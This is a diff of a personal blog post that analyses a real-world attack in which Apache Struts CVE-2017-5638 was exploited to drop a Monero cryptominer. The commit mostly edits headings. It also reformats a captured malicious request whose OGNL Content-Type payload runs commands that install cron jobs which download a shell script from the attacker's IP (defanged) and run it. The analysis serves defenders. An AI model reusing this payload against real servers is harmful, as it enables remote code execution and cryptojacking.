

Before and after one commit to num1r0/num1r0.github.io, a Jekyll site: the page built from _posts/2018-07-01-from-apache-struts-to-cryptominer.md, in a window 1280 px wide and 1400 px high, scrolled down 272 px. Shown: the whole window, without its empty margins (224-1055 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
final version

````diff
--- a/_posts/2018-07-01-from-apache-struts-to-cryptominer.md
+++ b/_posts/2018-07-01-from-apache-struts-to-cryptominer.md
@@ -7,7 +7,7 @@
 ---
 Remember Equifax hack and data of millions being stolen? Then you should also remember the Apache Struts 2 vulnerability, used during that attack. This sounds like an old news, but it seems to be exploited even to the day of this post. Someone is attacking web servers successfully and installs cryptominers, adding victims to a Monero pool.
 
-## Stage 1. Apache Struts 2 vulnerability (CVE-2017-5638).
+## Stage #1. Apache Struts 2 vulnerability (CVE-2017-5638).
 
 For those who doesn't know (or need a refresher) what is `CVE-2017-5638`; this is a vulnerability found in Apache Struts leading to RCE (remote code execution). Attacker has to send a crafted request to upload a file to the vulnerable server, injecting malicious code in the `Content-Type` header.
 
@@ -22,14 +22,7 @@
 Accept-Encoding: gzip, deflate
 Accept: */*
 User-Agent: Mozilla/5.0
-Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context
-['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
-(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget
--O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh\n*/19 * * * * curl hXXp://5.188.87[.]12/icons/logo.jpg|sh" | crontab -;wget -O - -q hXXp://5.188.87[.]12/
-icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash',
-'-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=
-(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).
-(#ros.flush())}
+Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo "*/20 * * * * wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh\n*/19 * * * * curl hXXp://5.188.87[.]12/icons/logo.jpg|sh" | crontab -;wget -O - -q hXXp://5.188.87[.]12/icons/logo.jpg|sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
 X-Forwarded-For: 5.188.10[.]251
 ```
 
@@ -45,7 +38,7 @@
 
 
 
-## Stage 2. The pseudo-JPG file.
+## Stage #2. The pseudo-JPG file.
 
 Stage 2 of this attack is execution of `logo.jpg` as a shell script. It is meant to look for other cryptominers running on the system and terminating those processes (_removing old versions or eliminating competitors?_).
 
@@ -61,7 +54,7 @@
 cat /proc/cpuinfo|grep aes>/dev/null
 ```
 
-## Stage 3. Cryptominer
+## Stage #3. Cryptominer.
 
 As mentioned above, malicious shell script drops one of the two available versions of `cpuminer 2.3.3`, one for `AES-NI` able processors and for those without support. The version and build time can be found by running `strings` tool against the binaries.
 
````
